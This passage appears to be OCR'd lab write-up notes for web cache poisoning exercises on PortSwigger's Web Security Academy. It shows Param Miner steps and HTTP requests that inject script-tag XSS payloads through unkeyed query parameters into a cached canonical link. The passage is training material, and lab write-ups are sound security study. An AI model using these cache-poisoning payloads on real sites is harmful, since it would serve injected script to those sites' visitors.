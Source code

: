 ```
GET /?cb=123 HTTP/1.1
...
Origin: cachebuster
Pragma: x-get-cache-key

In response:
X-Cache-Key: /$$Origin=cachebuster
...
<link rel="canonical" href='//ac931f151f6a7990c00a403200310061.web-security-academy.net/?cb=123'/>
```

**Solution:**

```
GET /?evil='/><script>alert(1)</script> HTTP/1.1
```

### Lab: Web cache poisoning via an unkeyed query parameter

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the cache with a response that executes alert(1) in the victim's browser.

GET / HTTP/1.1 -> Burp Extension -> Param Miner -> Guess params -> Guess everything!

Issue Activity -> Web cache poisoning -> **Origin** header, **utm\_content** query parameter

```
GET /?utm_content=cachebuster HTTP/1.1

In the response:
Set-Cookie: utm_content=cachebuster; Secure; HttpOnly
...
<link rel="canonical" href='//ac261faa1f4e6c70c05c33ef00140035.web-security-academy.net/?utm_content=cachebuster&nih12ueki4=1'/>
```

**Solution:**

```
GET /?utm_content='/><script>alert(1)</script> HTTP/1.1

In response:
Set-Cookie: utm_content=%27%2f%3e%3cscript%3ealert%281%29%3c%2fscript%3e
...
<link rel="canonical" href='//ac261faa1f4e6c70c05c33ef00140035.web-security-academy.net/?utm_content='/><script>alert(1)</script>&n9n5p1=1'/>
```

### Lab: Parameter cloaking

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome.
